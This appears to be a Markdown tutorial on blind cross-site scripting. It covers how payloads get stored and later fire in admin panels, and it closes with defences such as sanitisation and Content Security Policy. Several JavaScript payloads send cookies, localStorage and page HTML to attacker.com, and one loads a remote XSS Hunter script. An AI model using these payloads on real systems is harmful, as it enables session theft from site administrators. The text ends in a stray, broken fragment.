 

# **Blind XSS (In-Depth)**

## **Introduction to Blind XSS**
Blind XSS is a type of Cross-Site Scripting (XSS) attack where the attacker's payload is stored and executed in a different context than where it was injected, often in an admin panel or backend system. Unlike traditional stored XSS, the attacker does not immediately see the result of the payload execution.

### **Key Characteristics:**
- **Delayed Execution**: The payload triggers at a later time when accessed by another user (e.g., an admin).
- **No Immediate Feedback**: The attacker does not see the response directly.
- **Harder to Detect**: Since the payload executes in a different context, traditional scanners may miss it.

---

## **How Blind XSS Works**
1. **Payload Injection**: Attacker submits malicious input (e.g., via contact forms, comments, or user profiles).
2. **Storage on Server**: The input is stored in a database or log file.
3. **Triggered Execution**: When an admin or another privileged user views the stored data, the payload executes.
4. **Exfiltration of Data**: The payload sends sensitive information (cookies, session tokens) back to the attacker.

---

## **Common Attack Vectors**
1. **Admin Dashboards**  
   - Admin panels often review user-submitted data (e.g., support tickets, logs).
2. **Log Files**  
   - Web servers store logs that may include malicious input.
3. **User Profiles**  
   - Some systems allow HTML/JS in profile fields that admins review.
4. **Feedback Forms**  
   - Attackers submit malicious scripts that execute when reviewed.

---

## **Exploiting Blind XSS**
### **(1) Crafting Payloads**
Since feedback is delayed, attackers use callback mechanisms:
```html
<script>
  fetch('https://attacker.com/steal?data=' + document.cookie);
</script>
```
Or use services like:
- **[XSS Hunter](https://xsshunter.com/)** – Automates blind XSS detection.
- **[Interact.sh](https://interact.sh/)** – Checks for out-of-band interactions.

### **(2) Testing with Delayed Callbacks**
Instead of `alert()`, use:
```javascript
new Image().src="http://attacker.com/log?data="+encodeURIComponent(document.cookie);
```


---

### **(3) Advanced Payload Techniques**  
Blind XSS often requires evasion and persistence:  
- **DOM-Based Exfiltration**:  
  ```javascript
  document.addEventListener('DOMContentLoaded', () => {
    navigator.sendBeacon('https://attacker.com/collect', window.location.href);
  });
  ```
- **Session Hijacking**:  
  ```javascript
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({cookie: document.cookie, localStorage: localStorage})
  });
  ```

- **Delayed Triggers**:  
  ```javascript
  setTimeout(() => {
    window.location.href = 'https://attacker.com/redirect?data=' + btoa(document.documentElement.innerHTML);
  }, 5000); // Executes after 5 seconds
  ```

---

### **(4) Using Blind XSS Tools**  
Automate detection with:  
- **XSS Hunter** – Hosted service that captures callbacks (screenshots, cookies, DOM).  
- **Burp Collaborator** – Built into Burp Suite for out-of-band testing.  

Example payload for XSS Hunter:  
```html
<script src="https://xsshunter.com/yourpayload.js"></script>
```

---

## **Defending Against Blind XSS**  

### **(1) Input Sanitization**  
- Use libraries like `DOMPurify` to sanitize HTML/JS in user inputs.  
- Encode outputs with context-aware escaping (HTML, JavaScript, URL).  

### **(2) Content Security Policy (CSP)**  
Restrict script execution:  
```http
Content-Security-Policy: default-src 'self'; script-src 'none'; connect-src 'none';
```
Prevents data exfiltration via `fetch()` or `<img src="attacker.com">`.  

### **(3) Monitoring and Logging**  
- Audit admin panels/logs for suspicious scripts.  
- Implement WAF rules to block known XSS payloads.  

### **(4) Least Privilege for Admin Views**  
- Render user-submitted content as plain text in admin dashboards.  
- Use iframes with sandbox attributes for unsafe content.  

---

## **Real-World Examples**  
Continue From Real-World Examples and and ap